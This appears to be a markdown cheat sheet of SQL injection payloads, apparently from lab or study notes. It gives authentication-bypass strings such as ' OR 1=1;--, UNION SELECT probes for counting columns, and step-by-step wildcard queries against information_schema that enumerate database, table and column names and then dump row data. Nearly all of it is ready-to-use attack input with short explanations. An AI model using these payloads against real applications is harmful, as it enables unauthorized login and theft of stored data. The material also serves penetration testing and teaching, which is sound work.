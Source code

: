 




### In Band Authentication bypass
~~~
' OR 1=1;--
or
email@email.com' --  
~~~

`bob' AND 1=1--` would update Bob's record, while `bob' AND 1=2--` would not. This demonstrates the SQL injection vulnerability without putting the entire table's records at risk.
### Boolean Return

```SQL
' UNION SELECT 1;--
' UNION SELECT 1,2;--
' UNION SELECT 1,2,3;--
```
enumerates the correct number of columns in the query table

```
' UNION SELECT 1,2,3 where database() like '%';--
```
enumerates database name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.tables 
WHERE table_schema = '[[DATABASE NAME]]' and table_name like 'a%';--
```
enumerates table name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
WHERE TABLE_SCHEMA='[[DATABASE_NAME]]' and TABLE_NAME='[[TABLE_NAME]]' and COLUMN_NAME like 'a%';--
```
enumerates column name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
WHERE TABLE_SCHEMA='[[DATABASE_NAME]]' and TABLE_NAME='[[TABLE_NAME]]' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id'	
```
Again you'll need to cycle through letters, numbers and characters until you find a match. 
>As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name,

```
' UNION SELECT 1,2,3 from [[TABLE_NAME]] where [[COLUMN_NAME]] like 'a%
```
cycles through valid column name entries
```
' UNION SELECT 1,2,3 from [[TABLE_NAME]] where [[COLUMN_NAME]]='[[VALID_ENTRY]]' and [[OTHER_COLUMN_NAME]] like 'a%
```
cycles through row entry data
